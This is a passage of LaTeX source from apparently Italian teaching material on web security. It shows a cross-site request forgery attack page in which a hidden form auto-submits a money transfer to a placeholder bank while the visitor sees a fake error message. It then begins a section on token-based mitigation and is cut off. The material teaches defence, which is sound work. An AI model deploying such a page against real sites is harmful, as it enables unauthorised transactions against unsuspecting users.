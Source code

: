 \begin{esempio}{Una pagina di attacco}
\begin{affianco}[0.52][c]
\codicepiccolo
\begin{lstlisting}[style=html, name=pagina-malevola.html]
<!DOCTYPE html>
<html lang="it">
  <head>
    <title>Pagina assolutamente non malevola!</title>
  </head>
  <body>
    <h1>Ops, questo sito e' momentaneamente non disponibile.</h1>

    <form style="display:none;" method="POST"
          action="https://bank.com/transfer">
      <input type="text"   name="to"     value="EvilZampurian">
      <input type="number" name="amount" value="999.99">
      <input type="submit" id="submit"   value="submit">
    </form>

    <script>
      document.getElementById("submit").click();
    </script>
  </body>
</html>
\end{lstlisting}
\risultato
\begin{browser}
  {\raggedright\Lora\bfseries\Large Ops, questo sito e' momentaneamente
   non disponibile.\par}
\end{browser}
\begin{immagine}
\end{immagine}
\end{affianco}

Il form è invisibile () e viene inviato automaticamente da
uno script: l'utente vede solo un messaggio di errore innocuo.
\end{esempio}

\subsection{Mitigazione: il token sincronizzatore}

Il modo migliore di mitigare le vulnerabilità CSRF è un approccio basato su
token, detto :

